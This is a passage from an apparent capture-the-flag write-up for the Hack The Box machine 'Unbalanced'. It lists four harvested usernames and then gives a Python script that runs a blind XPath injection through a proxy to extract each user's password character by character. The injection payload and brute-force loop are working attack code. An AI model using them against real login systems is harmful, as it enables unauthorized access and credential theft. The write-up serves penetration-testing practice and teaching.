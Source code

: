{{< image src="images/image-20200801210131487.png" >}}


```
<div class="w3-container"><h3>   rita       Rita</h3><p>      Fubelli</p><p>Role:       rita@unbalanced.htb</p></div>
<div class="w3-container"><h3>   Jim       Mickelson</h3><p>      jim@unbalanced.htb</p><p>Role:       Web Designer</p></div>
<div class="w3-container"><h3>   Bryan       Angstrom</h3><p>      bryan@unbalanced.htb</p><p>Role:       System Administrator</p></div>
<div class="w3-container"><h3>   Sarah       Goodman</h3><p>      sarah@unbalanced.htb</p><p>Role:       Team Leader</p></div>
```

Now we have the usernames but no password yet.

Here's the boolean script we'll use to extract the password for all 4 accounts:

```python
#!/usr/bin/python3

import requests
import string
from pwn import *

proxies = {
    "http": "10.10.10.200:3128"
}

usernames = [
    "rita",
    "jim",
    "bryan",
    "sarah"
]

def getChar(user, x, i):
    url = "http://172.31.179.1:80/intranet.php"    
    data = {"Username": user, "Password": "a' or substring(//Username[contains(.,'" + user + "')]/../Password,{0},1)='{1}']\x00".format(str(i), x)}
    r = requests.post(url, data=data, proxies=proxies)
    if len(r.text) == 7529:
        return True
    else:
        return False

charset = string.ascii_letters + string.digits + string.punctuation

for user in usernames:
    pwd = ""
    l = log.progress("Brute Forcing %s... " % user)
    log_pass = log.progress("Password: ")
    i = 1
    while True:
        canary = True
        for x in charset:
            l.status(x)
            res = getChar(user,x, i)
            if res:
                canary = False
                pwd += x
                log_pass.status(pwd)
                i += 1
                break
        if canary:
            break
```